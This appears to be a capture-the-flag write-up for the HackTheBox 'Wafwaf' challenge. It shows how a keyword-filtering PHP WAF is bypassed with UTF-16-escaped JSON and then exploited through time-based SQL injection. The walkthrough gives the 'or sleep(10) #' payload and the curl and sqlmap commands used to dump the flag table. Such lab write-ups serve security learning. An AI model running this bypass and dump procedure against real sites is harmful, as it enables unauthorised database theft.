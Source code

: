 # bugbase_task2
## Wafwaf hackthebox

<img src="Picture1.png">


<p>&nbsp;</p>  


On entering the ip in the browser.

<img src="Picture2.png">
<p>&nbsp;</p>

it looks somewhat a php code

there is a sql database and the input of POST requests are filtered using the function *waf*.

<img src="Picture3.png">

- The script ends abruptly after a symbol is found


***[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having***


lets try sqli


# SQLi

Checking what happens when we make a request with one of the words that are filtered by the waf:

**curl http://46.101.23.188:32080/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}**


the script seems to accept **json** code;
and after getting json code  we can simply convert it into utf-16


lets burp we need to enter the localhoast address after -x


**curl http://46.101.23.188:32080/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080**

<img src="Picture4.png">

Once the request is captured, we will send it to the repeater



<img src="Picture5.png">

after this we will overcome this  using payload **or sleep(10) #** will be encoded to utf-16 to json decode.

I use this [unicode converter](https://www.branah.com/unicode-converter)

<img src="Picture11.png">



load the payload.

<img src="Picture12.png">





now enter the POST code into a .txt and rwplace the payload placeholder with ```bash * ```

<img src="Picture13.png">

# time based SQL Injection

execuing time based sqli using  ```sqlmap``` to retrieve database.

**sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql**


<img src="Picture6.png">

We can see here we have five databases db_m8452, info_schema, mysql, performance_schema, sys.
lets retrive tables from db_m8452:


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql**


<img src="Picture7.png">

db_m8452  has two tables, *definitely_not_a_flag* and *notes*. lets dump  *definitely_not_a_flag* (--dump).


**sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql**

after applying the time based sql inject. and many payloads later we got the flag

<img src="Picture10.png">


